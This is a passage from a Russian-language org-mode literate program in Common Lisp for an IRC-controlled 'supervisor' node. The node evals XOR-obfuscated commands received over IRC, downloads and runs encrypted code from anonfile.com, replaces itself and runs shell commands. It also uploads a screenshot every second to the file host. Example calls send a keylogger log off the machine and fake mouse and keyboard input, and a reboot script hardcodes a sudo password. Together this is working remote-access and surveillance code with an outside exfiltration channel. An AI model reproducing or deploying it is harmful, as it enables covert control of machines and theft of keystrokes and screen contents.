           (cl-irc:privmsg *irc-conn* *irc-chan* (format nil ,msg ,@params))
         (t (err)
           (dbg "::irc connect error: ~A~%" (type-of err))
           nil))))

  ;; irc-hook
  <<irc_hook>>

  (defun irc-helper ()
    (sleep 1)
    (cl-irc:add-hook *irc-conn* 'cl-irc:IRC-PRIVMSG-MESSAGE #'irc-msg-hook)
    (sleep 1)
    (bt:with-recursive-lock-held (*irc-lock*)
      (cl-irc:join *irc-conn* *irc-chan*))
    (sleep 1)
    (bt:with-recursive-lock-held (*irc-lock*)
      (setf *connection-established-flag* t))
    (sendmsg "hi"))
#+END_SRC

** Command hook

Определим функцию, которая будет обрабатывать сообщения, получаемые из irc-канала. Она должна возвращать T чтобы предотвратить дальнейшую обработку принятого сообщения.

#+NAME: irc_hook
#+BEGIN_SRC lisp :noweb yes
  ;; irc_cmd_proc
  <<irc_cmd_proc>>

  (defun irc-msg-hook (param)
    "MUST return T for stop hooks processing"
    (funcall *irc-cmd* param)
    (setf *watchdog-timer* 0)
    t)
#+END_SRC

У сообщения есть следующие поля:
- CL-IRC:SOURCE
- CL-IRC:USER
- CL-IRC:HOST
- CL-IRC:COMMAND
- CL-IRC:ARGUMENTS
- CL-IRC:CONNECTION
- CL-IRC:RECEIVED-TIME
- CL-IRC:RAW-MESSAGE-STRING

Из них нас интересует собственно команда размещенная в ~ARGUMENTS~. Мы прогоняем ее через функцию ~decode~, которая регуляркой разбивает команду на контрольную сумму (CRC32) и base64-кодированный код. Код расшифровывается с помощью ~decrypt~ и текущего ~seed~ а затем по нему вычисляется контрольная сумма. Если переданная контрольная сумма совпала с вычисленной - эта команда адресована нам, и мы ее выполняем.

#+NAME: irc_cmd_proc
#+BEGIN_SRC lisp :noweb yes
  ;; seq_xor
  <<seq_xor>>

  ;; ecrypt
  <<encrypt>>

  ;; decrypt
  <<decrypt>>

  ;; encode
  <<encode>>

  ;; decode
  <<decode>>

  (defparameter *irc-cmd*
    (lambda (param)
      (block irc-cmd-block
        (let* ((msg (cadr (CL-IRC:ARGUMENTS param)))
               (cmd (decode msg *irc-sess*)))
          (dbg "::MSG: [~A]~%" msg)
          (dbg "::CMD: [~A]~%" cmd)
          (finish-output)
          (unless (null cmd)
            (setf *watchdog-timer* 0)
            (let ((result (handler-case (bprint (eval (read-from-string cmd)))
                            (t (err)
                              (dbg "::irc-cmd error: ~A~%" (type-of err))
                              (sendmsg "ERR(irc-cmd): [~A]" (type-of err))
                              (return-from irc-cmd-block nil)))))
              (setf *watchdog-timer* 0)
              (sendmsg "=> ~A" result)
              (dbg "::=> ~A~%" result)
              (finish-output)))))))

  ;; example of send encoded cmd
  ;; (encode "(print 1)" *irc-sess*)

  ;; example of wrong encoded cmd
  ;; (encode "(print 1)" (get-universal-time))
#+END_SRC

** Sequence XOR

#+NAME: seq_xor
#+BEGIN_SRC lisp
  (defun seq-xor (len seq-1 seq-2)
    (let ((result (make-array len :element-type '(unsigned-byte 8))))
      (do ((idx 0 (incf idx)))
          ((= idx len))
        (setf (aref result idx)
              (logxor (aref seq-1 idx)
                      (aref seq-2 idx))))
      result))
#+END_SRC

** Encrypt

#+NAME: encrypt
#+BEGIN_SRC lisp
  (defun encrypt (oct seed)
    (let* ((len (length oct))
           (gen (prbs:byte-gen 31 :seed seed))
           (gam (funcall gen len))
           (enc (seq-xor len oct gam)))
      (base64:usb8-array-to-base64-string enc)))
#+END_SRC

** Decrypt

#+NAME: decrypt
#+BEGIN_SRC lisp
  (defun decrypt (base64 seed)
    (let* ((oct (base64:base64-string-to-usb8-array base64))
           (gen (prbs:byte-gen 31 :seed seed))
           (len (length oct))
           (gam (funcall gen len)))
      (seq-xor len oct gam)))
#+END_SRC

** Encode

#+NAME: encode
#+BEGIN_SRC lisp
  (defun encode (cmd seed)
    (let* ((oct     (flex:string-to-octets cmd :external-format :utf-8))
           (crc32   (ironclad:byte-array-to-hex-string
                     (ironclad:digest-sequence :crc32 oct)))
           (encoded (encrypt oct seed)))
      (format nil "s/~A/~A" crc32 encoded)))
#+END_SRC

** Decode

#+NAME: decode
#+BEGIN_SRC lisp
(defun decode (cmd seed)
  (multiple-value-bind (match-p result)
      (ppcre:scan-to-strings "s/([0-f]*)/(.*)$" cmd)
    (unless match-p
      (return-from decode nil))
    (destructuring-bind (crc32 cmd)
        (coerce result 'list)
      (let* ((oct (decrypt cmd seed))
             (crc (ironclad:byte-array-to-hex-string
                   (ironclad:digest-sequence :crc32 oct))))
        (if (equal crc crc32)
            (flex:octets-to-string oct :external-format :utf-8)
            ;; else
            nil)))))
#+END_SRC

* Update On Irc & Features

Чтобы удаленно расширять функциональность супервизора нам нужен способ обновить код. В блоке кода [[irc_cmd_proc][irc_cmd_proc]] раздела [[*Command hook][Command hook]] опредено, как узел может выполнить команду. Так что теперь мы должны написать процедуру, которая эту команду сформирует.

При этом мы ограничены размером IRC-сообщения, которое может быть не больше полукилобайта, поэтому сначала лучше закачать зашифрованное обновление на файлообменник и получить на него ссылку.

Эту задачу берет на себя процедура ~upload-code~, ей нужен код, (представленный как строка) и ключ, чтобы зашифровать код (т.к. мы не хотим чтобы файлобменник мог его прочитать).

Вызвать ~upload-code~ это задача оператора. ~upload-code~ возвращает ссылку на закачанный зашифрованный файл.

#+NAME: upload_code
#+BEGIN_SRC lisp :noweb yes
  (defun upload-code (code key)
    (let* ((oct (flex:string-to-octets code :external-format :utf-8))
           (base64 (encrypt oct key))
           (filename (format nil "u-~A" (get-universal-time)))
           (result   (cl-json:decode-json-from-string
                      (anon-file-upload filename base64)))
           (link     (if (cdr (assoc :status result))
                         (subseq (cdadr (cadadr (assoc :data result))) 20)
                         nil)))
      link))

  ;; TEST for upload
  ;; (upload-code "(defun alfa () (print 1))" 1234567890)
  ;; /t1TaCeD1ne/u-3784605289
#+END_SRC

Теперь, когда есть ссылка, оператор может сформировать команду для отправки в irc-канал. Для этого он составляет из полученной на предыдущем этапе ссылки и ключа команду вида:

#+BEGIN_EXAMPLE
  "(update \"/t1TaCeD1ne/u-3784605289\" 1234567890)"
#+END_EXAMPLE

Но так как команда не посылается в канал в открытом виде - её надо зашифровать с помощью ~encode~

#+BEGIN_SRC lisp
  ;; (encode "(update \"/t1TaCeD1ne/u-3784605289\" 1234567890)" 3784752939)
  ;; => s/2953b20b/61gOM23BnHgQ+JFZnz7WxmlPOMmajHeB4N1efW+gmhVHdICEy2my4tNdK2algQ==
#+END_SRC

Полученную команду уже вполне можно посылать в канал и, если узел получил и выполнил команду, он вернет результат в канал, например так:

#+BEGIN_EXAMPLE
  <b3784752939> => "ALFA"
#+END_EXAMPLE

Мы можем обьединить закачку кода и отправку команды в одну операцию, для удобства:

#+NAME: upload_code_and_send
#+BEGIN_SRC lisp :noweb yes
  ;; seq_xor
  <<seq_xor>>

  ;; encrypt
  <<encrypt>>

  ;; anon_file_upload
  <<anon_file_upload>>

  ;; upload_code
  <<upload_code>>

  ;; encode
  <<encode>>

  (defun upload-code-and-send (code key seed)
    (let* ((code-link (upload-code code key))
           (cmd (format nil "(update \"~A\" ~A)" code-link key))
           (enc (encode cmd seed)))
      (sendmsg enc)))

  ;; (upload-code-and-send "(alfa)" 1234567890 3784753813)
#+END_SRC

В этом тестовом примере узел должен выполнить ~ALFA~ и выдать в канал результат выполнения (число 1).

Чтобы все сработало, ~на узле~ нужно определить функцию ~UPDATE~, которая будет получать ссылку на файл с кодом, скачивать и расшифровывать его а потом применять:

#+NAME: update
#+BEGIN_SRC lisp :noweb yes
  ;; anon_file_download
  <<anon_file_download>>

  (defun update (link key)
    (let* ((base64 (anon-file-download link))
           (oct    (decrypt base64 key))
           (cmd    (flex:octets-to-string oct :external-format :utf-8))
           (result (handler-case (bprint (eval (read-from-string cmd)))
                     (t (err)
                       (dbg "::irc-cmd error: ~A~%" (type-of err))
                       (sendmsg "ERR(irc-cmd): [~A]" (type-of err))
                       (return-from update nil)))))
      result))

  ;; (update "/3444C7Dbna/u-3784602724" 1234567890)
#+END_SRC

** File obtaining

Воспользуемся этим механизмом, чтобы сформировать какую-то новую функциональность, которая не была определена ранее. Например, попросим узел загрузить на файлообменник какой-нибудь файл.

Для этого надо определить процедуру, которую у оператора уже есть - ~upload-code~ (она определена в разделе выше). Но эта процедура не включена в код супервизора, исполняющийся на удаленной машине (поправка: в новом релизе - уже включена, но неважно). Эта процедура вызывает внутри себя ~encrypt~ и ~anon-file-upload~, которые уже на удаленном узле определены.

Чтобы отослать нам понадобится текущий ~seed~ получателя, который мы можем взять из его сообщений в канале и сохранить в переменную *receiver*. Также определим ключ, чтобы закрыть код от файлообменника.

Формируем строку и отсылаем:

#+BEGIN_SRC lisp
  (defparameter *receiver* 3785297487)
  (defparameter *tmpkey* 1234567890)

  (upload-code-and-send
   "(defun upload-code (code key)
    (let* ((oct (flex:string-to-octets code :external-format :utf-8))
           (base64 (encrypt oct key))
           (filename (format nil \"u-~A\" (get-universal-time)))
           (result   (cl-json:decode-json-from-string
                      (anon-file-upload filename base64)))
           (link     (if (cdr (assoc :status result))
                         (subseq (cdadr (cadadr (assoc :data result))) 20)
                         nil)))
      link))"
   ,*tmpkey*
   ,*receiver*)
#+END_SRC

Теперь, вызвав свежеопределенную процедуру, мы можем закачать собственный код на файлообменник и получить на него ссылку:

#+NAME: tester
#+BEGIN_SRC lisp
  (defparameter *receiver* 3785300360)
  (defparameter *tmpkey* 1234567890)

  ;; (upload-code-and-send
  ;;  (format
  ;;   nil
  ;;   "(progn (sendmsg (format nil \"k~~A\" (upload-code (alexandria:read-file-into-string \"/var/log/logkeys.log\") ~A))) t)"
  ;;   *tmpkey*)
  ;;  *tmpkey*
  ;;  *receiver*)

  ;; (alexandria:write-string-into-file
  ;;  (download-and-decrypt "/T364z1F3n9/u-3785296327" *tmpkey*)
  ;;  "keylog3.log")
#+END_SRC

По этой ссылке скачать файл себе и расшировать его:

#+NAME: download_and_decrypt
#+BEGIN_SRC lisp
  (defun download-and-decrypt (link key)
    (flex:octets-to-string
     (decrypt
      (anon-file-download link)
      key)
     :external-format :utf-8))

  ;; (upload-code
  ;;  (alexandria:read-file-into-string "q.lisp\"")

  ;; (download-and-decrypt "/some/link" *tmpkey*)
#+END_SRC

** Replace yourself

Теперь выполним обратную операцию - загрузим файл на узел - например новую версию себя:

#+NAME: replace_yourself
#+BEGIN_SRC lisp :noweb yes
  <<download_and_decrypt>>

  (defun replace-yourself (link key)
    (alexandria:write-string-into-file
     (download-and-decrypt link key)
     "q.lisp" :if-exists :supersede)
    'ok)

  ;; (upload-code (alexandria:read-file-into-string "q.lisp") 1234567890)
  ;; => "/some/file"

  ;; (defparameter *receiver* 3784783570)
  ;; (defparameter *tmpkey* 1234567890)

  ;; (upload-code-and-send
  ;;  "(replace-yourself \"/some/file\" 1234567890)"
  ;;  *tmpkey*
  ;;  *receiver*)
#+END_SRC

** Run program

Аналогичным образом добавляем возможность запускать команды на удаленном узле. Следует помнить, что запуск полностью синхронный, поэтому следует добавлять амперсанд (&) в конце команды, чтобы не ждать ее завершения.

#+NAME: shell_command
#+BEGIN_SRC lisp
  (defvar *shell-search-paths* '("/usr/bin/" "/usr/local/bin/"))

  (defparameter *bourne-compatible-shell* "/bin/sh"
    "The path to a Bourne compatible command shell in
  physical pathname notation.")

  (defun directory-pathname-p (pathname)
    "Does `pathname` syntactically  represent a directory?
    ---
    A directory-pathname is a pathname _without_ a filename. The three
    ways that the filename components can be missing are for it to be `nil`,
    `:unspecific` or the empty string.
    "
    (flet ((check-one (x)
             (not (null (member x '(nil :unspecific "")
                                :test 'equal)))))
      (and (check-one (pathname-name pathname))
           (check-one (pathname-type pathname)))))

  (defmacro with-gensyms (syms &body body)
    `(let ,(mapcar #'(lambda (s)
                       `(,s (gensym)))
                   syms)
       ,@body))

  (defmacro with-stream-from-specifier ((stream)
                                        &body body)
    (with-gensyms (s close? result)
      `(let ((,close? t)
             ,s
             ,result)
         (unwind-protect
              (setf ,result
                    (multiple-value-list
                     (let (,stream)
                       (setf (values ,s ,close?)
                             nil)
                       (setf ,stream ,s)
                       ,@body)))
           (when (and ,close? ,s)
             (let ((it (close-stream-specifier ,s)))
               (when it
                 (setf (first ,result) it)))))
         (values-list ,result))))

  (defmacro with-input ((var) &body body)
    "Create an input stream from source and bind it to var within the body of the with-input form. The stream will be closed if necessary on exit."
    `(with-stream-from-specifier (,var)
       ,@body))

  (defun close-stream-specifier (s)
    (if (equal (type-of s) 'string-stream)
        (prog1
            (values (get-output-stream-string s))
          (close s))
        ;; else
        (progn
          (close s)
          (values nil))))

  (defun file-to-string-as-lines (stream)
    (with-output-to-string (s)
      (loop for line = (read-line stream nil :eof nil)
         until (eq line :eof) do
           (princ line s)
           (terpri s))))

  (defun %shell-command (command)
    (with-input (input-stream)
      (let* ((process (sb-ext:run-program
                       ,*bourne-compatible-shell*
                       (list "-c" command)
                       :wait nil :input input-stream
                       :output :stream
                       :error :stream))
             (output-thread (sb-thread:make-thread
                             #'(lambda ()
                                 (file-to-string-as-lines
                                  (sb-impl::process-output process)))))
             (error-thread (sb-thread:make-thread
                            #'(lambda ()
                                (file-to-string-as-lines
                                 (sb-impl::process-error process))))))
        (let ((error-code
               (sb-impl::process-exit-code (sb-impl::process-wait process)))
              (output-string (sb-thread:join-thread output-thread))
              (error-string (sb-thread:join-thread error-thread)))
          (close (sb-impl::process-output process))
          (close (sb-impl::process-error process))
          (values output-string error-string error-code)))))

  (defun find-command-ending-in-string (command)
    (let ((checking? t))
      (loop for ch across command
         for i from 0 do
           (cond ((and checking? (char= ch #\Space))
                  (return i))
                 ((char= ch #\\)
                  (setf checking? nil))
                 (t
                  (setf checking? t))))))


  (defun shell-command (command)
    "Synchronously execute `command` using a Bourne-compatible shell,
     returns (values output error-output exit-status).
     --
     The `command` can be a full path to a shell executable binary
     or just its name. In the later case, the variable `*shell-search-paths*`
     will be used to find the executable.
     --
     Depending on the implementation, the variable `*bourne-compatible-shell*`
     may be used to find a shell to use in executing `command`."
    (let* ((pos-/ (position #\/ command))
           (pos-space (find-command-ending-in-string command))
           (binary (subseq command 0 (or pos-space)))
           (args (and pos-space (subseq command pos-space))))
      (when (or (not pos-/)
                (and pos-/ pos-space)
                (and pos-space
                     (< pos-/ pos-space)))
        ;; no slash in the command portion, try to find the command with
        ;; our path
        (setf binary
              (or (loop for path in *shell-search-paths* do
                       (let ((full-binary (make-pathname :name binary
                                                         :defaults path)))
                         (when (and (probe-file full-binary)
                                    (directory-pathname-p full-binary))
                           (return full-binary))))
                  binary)))
      (multiple-value-bind (output error status)
          (%shell-command (format nil "~a~@[ ~a~]" binary args))
        (values output error status))))
#+END_SRC

Тут приведен пример запуска, написанный в расчете на то, что предыдущий блок упакован в строку, размещенную в переменной ~*CODE*~.

Также есть примеры запуска на удаленном узле
- броузера (как пример GUI-программы которая есть везде)
- команды которая используется, чтобы понять, запущен ли броузер (она
  подсчитывает процессы с именами "firefox")
- закрытия броузера (как пример завершения процессов, запущенных
  асинхронно)
- проверки определена ли процедура (так можно определять, какие features
  поддерживаются в этой инсталляции супервизора узла в текущий момент)
- удаления определения процедуры (оно необходимо, т.к. без него
  переопределение ловится процедурой игнорирования ошибки)

#+BEGIN_SRC lisp
  (defparameter *receiver* 3784780565)

  (defparameter *tmpkey* 3784780565)

  (upload-code-and-send
   ,*code*
   ,*tmpkey*
   ,*receiver*)

  (upload-code-and-send
   "(uiop:run-program \"firefox &\")"
   ,*tmpkey*
   ,*receiver*)

  (upload-code-and-send
   "(shell-command \"ps aux | grep firefox | wc -l\")"
   ,*tmpkey*
   ,*receiver*)

  (upload-code-and-send
   "(shell-command \"killall firefox\")"
   ,*tmpkey*
   ,*receiver*)

  (upload-code-and-send
   "(fboundp 'shell-command)"
   ,*tmpkey*
   ,*receiver*)

  (upload-code-and-send
   "(setf *sleep-interval* 300)"
   ,*tmpkey*
   ,*receiver*)



  (upload-code-and-send
   "(fmakunbound 'shell-command)"
   ,*tmpkey*
   ,*receiver*)
#+END_SRC

** Shutdown

Чтобы выполнить перезагрузку воспользуемся ~EXPECT~. Скрипт будет таким:

#+NAME:
#+BEGIN_SRC tcl
  #!/usr/bin/expect -d
  spawn sudo reboot
  sleep 3
  expect {\[sudo\] ?assword* }
  send "rfhfrfnbwf\r"
  sleep 3
#+END_SRC

Вот последовательность команд, которую нужно исполнить, чтобы загрузить и выполнить скрипт перезагрузки на узле. Следует помнить, что после перезагрузки узел не выйдет в сеть, если на нем не установлен автологин.

#+BEGIN_SRC lisp
  (defparameter *receiver* 3784776109)

  (defparameter *tmpkey* 1234567890)

  (defparameter *code*
    "(alexandria:write-string-into-file
     \"#!/usr/bin/expect -d
     spawn sudo reboot
     sleep 3
     expect {\\[sudo\\] ?assword* }
     send \\\"rfhfrfnbwf\\\\r\\\"
     sleep 3
     \"
     \"rbt.sh\" :if-exists :supersede)
  ")

  (upload-code-and-send
   ,*code*
   ,*tmpkey*
   ,*receiver*)

  (upload-code-and-send
   "(shell-command \"ls -la| grep rbt\")"
   ,*tmpkey*
   ,*receiver*)

  (upload-code-and-send
   "(shell-command \"chmod +x rbt.sh\")"
   ,*tmpkey*
   ,*receiver*)

  (upload-code-and-send
   "(shell-command \"./rbt.sh\")"
   ,*tmpkey*
   ,*receiver*)
#+END_SRC

** Remote GUI: moving & actions
:PROPERTIES:
:xtest: xlib/xtest
:END:

#+NAME: get_property
#+BEGIN_SRC elisp :var prop=""
  (org-entry-get nil prop t)
#+END_SRC

Для управления GUI-программами на узле нам нужны возможности по управлению мышью. Тут приведен код, функции которого можно вызывать.

~perform-mouse-action~ создает фейковое событие мышки, а ~perform-key-action~ создает фейковое событие клаиватуры. Обе функции принимают первым параметров ~t~ или ~nil~, что соответствует "нажать" и "отпустить", затем ~keysym~.

~perform-mouse-action~ принимает еще и координаты, куда следует кликнуть "мышкой".

#+NAME: remote_gui
#+BEGIN_SRC lisp :noweb yes
  (defun x-move (x y)
    (if (and (integerp x) (integerp y))
        (with-default-display-force (d)
          (<<get_property("xtest")>>:fake-motion-event d x y))
        (error "Integer only for position, (x: ~S, y: ~S)" x y)))

  (defun mklist (obj)
    (if (and
         (listp obj)
         (not (null obj)))
        obj (list obj)))

  (defmacro defun-with-actions (name params actions &body body)
    ;; "This macro defun a function which witch do mouse or keyboard actions,
    ;; body is called on each action."
    `(defun ,name ,params
       (mapcar
        #'(lambda (action)
            ,@body)
        (mklist ,actions))))

  (defun perform-mouse-action (press? button &key x y)
    (and x y (x-move x y))
    (with-default-display-force (d)
      (<<get_property("xtest")>>:fake-button-event d button press?)))

  (defun perform-key-action (press? keycode) ; use xev to get keycode
    (with-default-display-force (d)
      (<<get_property("xtest")>>:fake-key-event d keycode press?)))

  (macrolet ((def (name actions)
               `(defun-with-actions ,name
                    (&key (button 1) x y)
                  ,actions
                  (funcall #'perform-mouse-action
                           action button :x x :y y))))
    (def x-mouse-down t)
    (def x-mouse-up nil)
    (def x-click '(t nil))
    (def x-dbclick '(t nil t nil)))

  (defmacro with-scroll (pos neg clicks x y)
    `(let ((button (cond
                     ((= 0 ,clicks) nil)
                     ((> 0 ,clicks) ,pos)    ; scroll up/right
                     ((< 0 ,clicks) ,neg)))) ; scroll down/left
       (dotimes (_ (abs ,clicks))
         (x-click :button button :x ,x :y ,y))))

  (defun x-vscroll (clicks &key x y)
    (with-scroll 4 5 clicks x y))

  (defun x-scroll (clicks &key x y)
    (x-vscroll clicks :x x :y y))

  (defun x-hscroll (clicks &key x y)
    (with-scroll 7 6 clicks x y))

  (macrolet ((def (name actions)
               `(defun-with-actions ,name (keycode)
                  ,actions
                  (funcall #'perform-key-action
                           action keycode))))
    (def x-key-down t)
    (def x-key-up nil)
    (def x-press '(t nil)))

  ;; (block perform-key-action-test
  ;;   (perform-key-action t 116)
  ;;   (sleep .1)
  ;;   (perform-key-action nil 116))

  ;; (defparameter *mouse-left* 1)

  ;; (defparameter *mouse-middle* 2)

  ;; (block perform-mouse-action-test
  ;;   (perform-mouse-action t *mouse-left* :x 100 :y 100)
  ;;   (sleep .1)
  ;;   (perform-mouse-action nil *mouse-left* :x 100 :y 100))
#+END_SRC

* Snapshot function

Сама функция скриншота должна каждую секунду делать скриншот, загружать его на файлообменник, получать ссылку на файл и отправлять ее в irc-канал.

В будущем, когда я добавлю веб-камеру к роботу-пылесосу, такой же процесс можно будет реализовать и для картинок с неё. Аналогичный процесс планируется для значений температуры и влажности.

За формирование скриншота отвечает кодовый блок ~x_snapshot~ и одноименная функция.

Чтобы сократить количество передаваемых данных мы используем несколько приемов.

Во-первых, мы будем передавать двуцветные черно-белые изображения - по ним легко визуально распознать то что происходит, но при этом мы можем тратить только один бит на точку. Мы будем упаковывать по 8 таких бит в байт и формировать PNG-файл с цветовым пространством 256 градаций серого. За эту часть работы отвечает ~pack-img~.

:NOTE:

  [TODO:gmm] Возможно, оптимальнее было бы найти способ сохранять правильную модель цвета, на это указывает, например вот такой пассаж о PNG-формате:

  #+BEGIN_EXAMPLE
    В заголовке IHDR указана ширина и высота, глубина цвета (1,2,4,8 или 16 бит) и формат пикселя - Grayscale, RGB, Palette, GrayscaleAlpha, RGBA, там же тип компрессии (пока что всегда 0: zlib) и тип фильтрации (тоже всегда 0, что означает 5 фильтров предикторов None, Sub, Up, Average и Paeth, с выбором одного из 5 в начале каждой строки).
  #+END_EXAMPLE

  Но это требует глубже разобраться в PNG-формате, хотя и открывает возможности по управлению сжатием и добавлению текстовых данных в файлы.

:END:

Второй способ сократить количество передаваемых данных - передавать не все изображение, а только те точки, в которых оно отличается от предыдущего переданного изображения.

Однако, в этом случае правильное отображение зависит от того, получил ли приемник начальное изображение.

Решение состоит в том, чтобы передавать полное изображение (ключевой кадр) один раз в последовательности из нескольких. Остальные изображения будут содержать только отличающиеся точки относительно предыдущего состояния. Несмотря на то, что черные точки тоже передаются - эксперименты показывают, что PNG эффективно сжимает большие черные участки.

Важным моментом тут является то, что в общем случае невозможно гарантировать успех загрузки изображения на файлообменник. В случае сбоя мы должны в следующий раз пытаться загрузить "ключевой кадр". Для этого ~wrap-img~ возвращает T в случае успеха и NIL - если произошел сбой.

Кроме того, по соображениям безопасности стоит шифровать изображения после сжатия. Это шифрование нельзя назвать стойким, возможна атака на открытый текст, так как формат PNG предсказуем. Кроме того, в качестве ключа мы гамму, генератор которой инициализируется таймштампом узла (в канале могут быть одновременно несколько узлов).

В общем, шифрование так себе ([TODO:gmm]), но большего пока не требуется даже для отправляемых узлу комманд, хотя тут и существуют угрозы безопасности.

#+NAME: shot
#+BEGIN_SRC lisp :noweb yes
  ;; x_snapshot
  <<x_snapshot>>

  ;; pack_image
  <<pack_img>>

  ;; wrap_img
  <<wrap_img>>

  ;; get_img_diff
  (declaim (inline get-img-diff))

  (defun get-img-diff (dims prev snap)
    (let ((diff (make-array dims :element-type '(unsigned-byte 8))))
      (do ((qy 0 (incf qy)))
          ((= qy (car dims)))
        (declare (type fixnum qy))
        (do ((qx 0 (incf qx)))
            ((= qx (cadr dims)))
          (declare (type fixnum qx))
          (setf (aref diff qy qx)
                (logxor (aref prev qy qx)
                        (aref snap qy qx)))))
      diff))

  ;; shot
  (let ((prev)
        (cnt 9999))
    (defun shot ()
      (declare (inline get-img-diff))
      (let* ((snap (pack-img (x-snapshot)))
             (dims (array-dimensions snap)))
        (if (> cnt *max-diffs-cnt*)
            (progn ;; key frame
              (wrap-img "~A" dims snap)
              (setf prev snap)
              (setf cnt 0))
            ;; else - diff
            (if (wrap-img (format nil "~~A_~A" cnt) dims
                          (get-img-diff dims prev snap))
                (progn
                  (setf prev snap)
                  (incf cnt))
                ;; else: wrap failure
                (setf cnt 9999))))))
#+END_SRC

** Wrap image

За шифрование изображения, загрузку его на файлообменник, получение ссылки и отправку её в канал отвечает функция ~wrap-img~. Она выполняет следующую последовательность операций:
- Формирует PNG-объект из двухмерного массива точек изображения с помощью
  функции ~get-png-obj~.
- Кодирует его в PNG-формат с помощью ~get-png-seq~ получая octets.
- Складывает эти octets c гаммой, с помощью уже знакомой функции
  ~encrypt~, получая base64-string
- Заливает эту base64-string на файлообменник с помощью функции
  ~anon-file-upload~. Здесь возможны варианты - [TODO:gmm] - файлообменник может дать сбой, в этом случае следует попытаться перезалить файл. Если несколько попыток оказались неудачны - надо сделать так, чтобы следующее отправляемое изображение было ключевым кадром, а не diff-ом, так как потеряный diff не даст нам возможности распознать следующие изображения последовательности.
- Полученную из файлообменника ссылку отправляет в irc-канал. В случае
  ошибки отправляет туда содержание ошибки.

#+NAME: wrap_img
#+BEGIN_SRC lisp :noweb yes
  ;; get_png_obj
  <<get_png_obj>>

  ;; get_png_seq
  <<get_png_seq>>

  ;; anon_file_upload
  <<anon_file_upload>>

  ;; wrap-img
  (defun wrap-img (frmt-filename-str dims image)
    (let* ((height   (car  dims))
           (width    (cadr dims))
           (png      (get-png-obj width height image :grayscale))
           (png-seq  (get-png-seq png))
           (base64   (encrypt png-seq *irc-sess*))
           (filename (format nil frmt-filename-str
                             (format nil "~A" (get-universal-time))))
           (json     "")
           (result   (handler-case
                         (progn
                           (setf json (anon-file-upload filename base64))
                           (cl-json:decode-json-from-string json))
                       (JSON:JSON-SYNTAX-ERROR (err)
                         (dbg "::wrap-img error: ~A~%~A~%"  (type-of err) json)
                         (sendmsg "ERR(wrap-img): [~A]" (type-of err))
                         (return-from wrap-img nil))
                       (t (err)
                         (dbg "::wrap-img error: ~A~%" (type-of err))
                         (sendmsg "ERR(wrap-img): [~A]" (type-of err))
                         (return-from wrap-img nil))))
           (link     (if (cdr (assoc :status result))
                         (subseq (cdadr (cadadr (assoc :data result))) 20)
                         nil)))
      (if link
          (sendmsg link)
          (sendmsg result))
      t))
#+END_SRC

*** Get PNG object

Функция ~get-png-obj~ вызывается из ~wrap-img~ и возвращает PNG-объект с содержимым, сформированным из переданного в нее двумерного массива.

#+NAME: get_png_obj
#+BEGIN_SRC lisp
  (defun get-png-obj (width height image &optional (color-type :truecolor-alpha))
    (let* ((png (make-instance 'zpng:png :width width :height height
                               :color-type color-type))
           (vector (make-array ;; displaced vector - need copy for save
                    (* height width (zpng:samples-per-pixel png))
                    :displaced-to image :element-type '(unsigned-byte 8))))
      ;; Тут применен потенциально опасный трюк, когда мы создаем
      ;; объект PNG без данных, а потом добавляем в него данные,
      ;; используя неэкспортируемый writer.
      ;; Это нужно чтобы получить третью размерность массива,
      ;; который мы хотим передать как данные и при этом
      ;; избежать создания для этого временного объекта
      (setf (zpng::%image-data png) (copy-seq vector))
      png))
#+END_SRC

*** Get PNG sequence

Функция ~get-png-seq~ возвращает представление PNG-файла в виде octets.

#+NAME: get_png_seq
#+BEGIN_SRC lisp
  (defun get-png-seq (png)
    (flex:with-output-to-sequence (stream)
      (zpng:write-png-stream png stream)))
#+END_SRC

*** Anon File Upload

#+NAME: anon_file_upload
#+BEGIN_SRC lisp
  ;; (setf drakma:*header-stream* *standard-output*)

  (defparameter *user-agent* "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0")

  (defparameter *additional-headers*
    `(("Accept" . "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8")
      ("Accept-Language" . "ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3")
      ("Accept-Charset" . "utf-8")))

  (defun get-csrf (text)
    (loop :for str :in (split-sequence:split-sequence #\Newline text)
       :do (multiple-value-bind (match-p result)
               (ppcre:scan-to-strings "(?m)app_csrf_token\\s+=\\s+\"(.*)\";" str)
             (when match-p (return (aref result 0))))))

  (defun get-cookies-alist (cookie-jar)
    "Получаем alist с печеньками из cookie-jar"
    (loop :for cookie :in (drakma:cookie-jar-cookies cookie-jar) :append
         (list (cons (drakma:cookie-name cookie) (drakma:cookie-value cookie)))))

  (defun anon-file-upload (filename content)
    (let ((cookie-jar (make-instance 'drakma:cookie-jar)))
      ;; load mainpage for cookies, headers and csrf
      (multiple-value-bind (body-or-stream ;; status-code headers uri
                            ;;stream must-close reason-phrase
                            )
          (drakma:http-request "https://anonfile.com/"
                               :user-agent *user-agent*
                               :redirect 10
                               :force-binary t
                               :cookie-jar cookie-jar
                               :additional-headers *additional-headers*)
        (let* ((text (flex:octets-to-string body-or-stream :external-format :utf-8))
               (csrf (get-csrf text))
               (boundary "---------------------------196955623314664815241571979859")
               (type-header (format nil "multipart/form-data; boundary=~A" boundary))
               (new-headers `(("Accept" . "application/json")
                              ("Accept-Language" . "en-US,en;q=0.5")
                              ("Cache-Control" . "no-cache")
                              ("X-Requested-With" . "XMLHttpRequest")
                              ("X-CSRF-Token" . ,csrf)
                              ("Origin" . "https://anonfile.com")
                              ("Referer" . "https://anonfile.com/")
                              ("Content-Type" . ,type-header)
                              ("TE" . "Trailers"))))
          (multiple-value-bind (body-or-stream ;; status-code headers uri
                                ;;stream must-close reason-phrase
                                )
              (drakma:http-request
               "https://api.anonfile.com/upload"
               :user-agent *user-agent*
               :method :post
               :form-data t
               :content (format nil "--~A
  Content-Disposition: form-data; name=\"file\"; filename=\"~A\"
  Content-Type: application/octet-stream

  ~A
  --~A--" boundary filename content boundary)
               :cookie-jar cookie-jar
               :additional-headers new-headers
               :force-binary t)
            (flex:octets-to-string body-or-stream :external-format :utf-8))))))
#+END_SRC

** Packing image

Нам нужна функция, для быстрой упаковки изображения. Она не тривиальна.

Мы берем полноцветное изображение и используем два вложенных цикла, проходя по ~Y~ и ~X~ чтобы обработать каждую точку. После обработки одна точка должна занимать только один бит.

Мы также должны упаковать по восемь точек в байт, но если размер изображения в точках не кратен байту, то нужно дополнить недостающие точки. За это отвечате внутренний макрос ~byte-finiser~, который вызывается по мере накопления значений в байте и в конце обработки строки, если это необходимо.

#+NAME: pack_img
#+BEGIN_SRC lisp
  (defun pack-img (image)
